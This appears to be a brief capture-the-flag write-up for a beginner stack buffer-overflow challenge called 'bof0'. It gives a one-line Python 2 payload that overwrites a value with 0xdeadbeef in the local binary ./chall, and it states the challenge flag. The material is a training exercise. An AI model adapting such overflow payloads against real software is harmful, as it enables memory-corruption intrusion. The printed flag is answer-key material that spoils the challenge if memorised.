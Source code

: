 # bof0

# Writeup

- Payload:  
```bash
python -c "import struct; print(64*'A'+struct.pack('I',0xdeadbeef))" | ./chall
```   

Note: Use python2

# Flag

`shellmates{WElC0me_to_PWn_w3LCoM3_t0_BOf}`